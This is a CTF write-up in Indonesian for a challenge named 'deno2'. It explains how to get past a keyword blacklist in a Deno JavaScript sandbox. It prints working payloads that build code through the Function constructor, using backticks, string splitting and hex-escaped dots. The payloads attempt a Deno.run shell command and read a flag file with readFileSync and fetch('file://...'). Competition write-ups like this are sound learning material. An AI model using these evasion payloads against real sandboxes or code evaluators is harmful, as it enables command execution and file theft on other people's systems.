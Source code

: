 # DENO2

Alat

- Terminal
- Node
- Sublime text

Untuk menyelesaikan deno2 kita harus mencari tahu cara untuk mem-bypass const BLACK_LIST. Untungnya kita diberikan dua petunjuk yang memberitahu kita bahwa ada cara lain untuk memanggil fungsi/atribut/metode dari objek selain menggunakan titik, yaitu dengan menggunakan metode 

```jsx
object[`function`]
```

Disini kita sudah tahu cara mem-bypass pemanggilan fungsi tapi bagaimana dengan pemanggilan deno?.

Disitulah Deno masuk daftar hitam, dengan sedikit tekad dan pengetahuan yang minim saya bertanya kepada Mr. Google. Setelah berselancar di Google saya menemukan sebuah artikel yang menyatakan bahwa kita dapat memanggil objek dengan `this` terlebih dahulu, misalnya this.deno.run().

kemudian dengan petunjuk kedua yang diberikan, saya menggunakan teknik fungsi anonim agar lebih mudah (menurut saya). Fungsi anonim bisa dibuat dengan menulis 

```jsx
({})["constructor"]["constructor"]("Code")()
```

() pada akhir code untuk memanggil fungsi anonim.

Dalam tantangan ini, kita tidak bisa menggunakan "" dan '', jadi kita menggantinya dengan (backtick). Untuk payload pertama saya buat seperti ini :
```jsx
({})[constructor][constructor](this[\`De\` + \`no\`][\`run\`]({cmd: [\`ls\`]}) )()
```

code di atask ternyata tidak berhasil, karena saya yakin ini seharus berhasil. Saya mencoba kode di deno1 dan berhasil. Hmmm kemudian saya cek file dockernya ternyata deno.run tidak boleh, jadi saya ganti dengan membaca langsung filenya seperti yang saya tulis di deno1 yaitu dengan deno.readfilesync(). kodenya akan seperti ini:

```jsx
({})[`constructor`][`constructor`](`decoder = new TextDecoder(\`utf-8\`);data = this[\`De\`+\`no\`][\`readFileSync\`](\`flag\x2etxt\`);return decoder[\`decode\`](data);`)()
```

catatan:\x2e untuk menggantikan . (dot)

Code di atas dapat berhasil. karena menurut saya jawaban saya terlalu panjang, saya bertanya kepada penulis, yang saya tanyakan seperti ini "apakah ada cara lain untuk mendapatkan flag", dan ternyata ada cara lain yaitu dengan menggunakan

```jsx
[][`constructor`][`constructor`](`return fetch(\`file:///ctf/flag\x2etxt\`)\x2ethen((a)=>a\x2etext()\x2ethen((b)=>console\x2elog(b)))`)()
```

dan

```jsx
[][constructor][constructor](return fetch(\\file:///ctf/flag\x2etxt\)\\x2ethen((a)=>a\\x2etext()\\x2ethen((b )=>console\\x2elog(b))))()
```

terima kasih kepada mas Dimas yang telah membantu saya.

### Referensi yang mungkin bisa membantu

[# HackTheBox "Business CTF" - discordvm - Node.js Sandbox Escape](https://www.youtube.com/watch?v=pzh6--wIp24&t=534s)

[Escaping nodejs vm](http://Gist.github.com/jcreedcmu/4f6e6d4a649405a9c86bb076905696af)
